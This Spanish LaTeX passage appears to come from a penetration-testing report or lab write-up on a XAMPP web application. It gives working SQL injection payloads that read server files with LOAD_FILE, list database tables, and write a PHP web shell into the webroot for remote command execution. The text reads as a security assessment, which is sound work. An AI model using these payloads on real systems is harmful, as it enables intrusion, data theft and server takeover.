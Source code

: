 Dado que al parecer el usuario no tiene restricciones mayores, procedemos a verificar si es posible leer archivos directamente. Para esto, revisamos un archivo genérico de la instalación de XAMPP, \texttt{web.config}.


\begin{verbatim}
libro de prueba 3' union select 'debo' as titulo, 'limpiar' as autor, 'todas' as edicion, LOAD_FILE('C:/xampp/htdocs/enwi/web.config') as anio, (SELECT GROUP_CONCAT(table_name SEPARATOR '|') FROM information_schema.tables) as numeroCopias;  -- 
\end{verbatim}

Habiendo logrado con éxito leer un documento, comprobamos que no hay problemas para poder manipular archivos. Acto seguido, inyectamos un archivo sobre el servidor, el cual nos permitirá ejecutar ataques de ejecución remota.


\begin{verbatim}
Libro de prueba 3' union SELECT 1,2,3,4, '\n<?php echo shell_exec($_GET[''cmd'']); ?>' INTO dumpfile 'C:/xampp/htdocs/enwi/test.php' -- 
\end{verbatim}

\begin{figure}
	\centering
	\includegraphics[width=.9\textwidth]{fragments/pentest/pen4.png}
    \caption{ Inyección de RCE }
\end{figure}

Ahora, para la etapa de explotación, verificamos si el archivo es ejecutable desde la máquina. En el caso de máquinas con windows, al no haber separación directa de los permisos de los usuarios, el mismo usuario que crea un archivo que levanta el servidor MySQL, también genera archivos que son ejecutables por el usuario que levanta PHP, porque son el mismo.

Comenzamos listando los directorios, entre ellos, utilizamos el directorio que apareció en el primer error mostrado.

